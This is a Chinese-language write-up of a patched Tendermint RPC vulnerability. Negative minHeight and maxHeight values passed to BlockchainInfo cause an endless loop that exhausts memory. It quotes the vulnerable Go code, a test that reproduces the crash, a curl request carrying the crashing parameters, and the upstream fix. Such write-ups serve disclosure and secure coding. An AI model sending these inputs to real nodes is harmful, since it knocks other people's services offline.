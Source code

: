 # [DC-01] RPC请求因For-loop导致OOM

## 漏洞标签

`RPC` `For-loop` `OOM`

## 漏洞描述

这是一个来自 hackerone 提交的关于 RPC 的漏洞。恶意的 `BlockchainInfo` 请求可能会导致无限循环，最终导致内存耗尽导致崩溃。

## 漏洞分析

文件：`rpc/core/blocks.go`

漏洞代码: [链接](https://github.com/tendermint/tendermint/blob/v0.22.5/rpc/core/blocks.go)

```go
func BlockchainInfo(ctx *rpctypes.Context, minHeight, maxHeight int64) (*ctypes.ResultBlockchainInfo, error) {
	if minHeight == 0 {
		minHeight = 1
	}

	if maxHeight == 0 {
		maxHeight = blockStore.Height()
	} else {
		maxHeight = cmn.MinInt64(blockStore.Height(), maxHeight)
	}

	// maximum 20 block metas
	const limit int64 = 20
	minHeight = cmn.MaxInt64(minHeight, maxHeight-limit)

	logger.Debug("BlockchainInfoHandler", "maxHeight", maxHeight, "minHeight", minHeight)

	if minHeight > maxHeight {
		return nil, fmt.Errorf("min height %d can't be greater than max height %d", minHeight, maxHeight)
	}

	blockMetas := []*types.BlockMeta{}
	for height := maxHeight; height >= minHeight; height-- { // for-loop
		blockMeta := blockStore.LoadBlockMeta(height)
		blockMetas = append(blockMetas, blockMeta)
	}

	return &ctypes.ResultBlockchainInfo{blockStore.Height(), blockMetas}, nil
}
```

攻击者可以发送如下参数值：

```go
minHeight = -9223372036854775808 (min int64)
maxHeight = -9223372036854775788 (minHeight + 20)
```

注意到`maxHeight = cmn.MinInt64(blockStore.Height(), maxHeight)`，其中 `MinInt64` 为从两个参数选择较小的，所以我们使用负值的 `maxHeight`。

注意循环语句 `for height := maxHeight; height >= minHeight; height-- {}`，代码中的 for-loop 会可以无限次循环执行。当达到循环次数 9223372036854775807 (max int64) ，还能继续进行。每次无法查找块时，它会向 `blockMetas` 向量追加一个nil。 最终，这将增长到足以耗尽服务器上的内存。

## 复现或测试步骤

此处可以有两种复现方式。

### 使用 go test 脚本测试

```golang
// XuanMao : Bug test
func TestBlockchainInfoForloop(t *testing.T) {
	config := cfg.ResetTestRoot("node_node_test")
	defer os.RemoveAll(config.RootDir)

	// create & start node
	n, err := DefaultNewNode(config, log.TestingLogger())
	require.NoError(t, err)
	err = n.Start()
    require.NoError(t, err)
    
	c := struct {
		min, max     int64
	}{
	-9223372036854775808, -9223372036854775788,
	}
	BlockchainInfo(c.min,c.max)
}
```

![1](./pic/1.png)

可以看到内存持续上升，几分钟后程序 crash.

### 启动节点复现

开启一个节点，并向节点接口(`e.g. 127.0.0.1:26657`)，发送以下请求：

```bash
curl 'http:///blockchain?minHeight=-9223372036854775808&maxHeight=-9223372036854775788'
```

## 修复

本漏洞相关修复见 : [Fix](https://github.com/tendermint/tendermint/commit/8dc655dad25b0b04f271cb66ba73fd504db3195d)

本漏洞在版本 v0.22.6 中修复。

修复方法：

增加 `filterMinMax` 对输入的参数值进行检查处理。

1. 检查参数值不小于0；
2. `min` 小于 `max`；
3. 当 `min` 为 0 时，设置为 1 ，当 `max` 为 0 ，设置为最后区块高度。

```golang
// error if either min or max are negative or min < max
// if 0, use 1 for min, latest block height for max
// enforce limit.
// error if min > max
func filterMinMax(height, min, max, limit int64) (int64, int64, error) {
	// filter negatives
	if min < 0 || max < 0 {
		return min, max, fmt.Errorf("heights must be non-negative")
	}

	// adjust for default values
	if min == 0 {
		min = 1
	}
	if max == 0 {
		max = height
	}

	// limit max to the height
	max = cmn.MinInt64(height, max)

	// limit min to within `limit` of max
	// so the total number of blocks returned will be `limit`
	min = cmn.MaxInt64(min, max-limit+1)

	if min > max {
		return min, max, fmt.Errorf("min height %d can't be greater than max height %d", min, max)
	}
	return min, max, nil
}
```

## 相关资料

本漏洞相关 `Issue` 见 : [Issue](https://github.com/tendermint/tendermint/issues/2049)


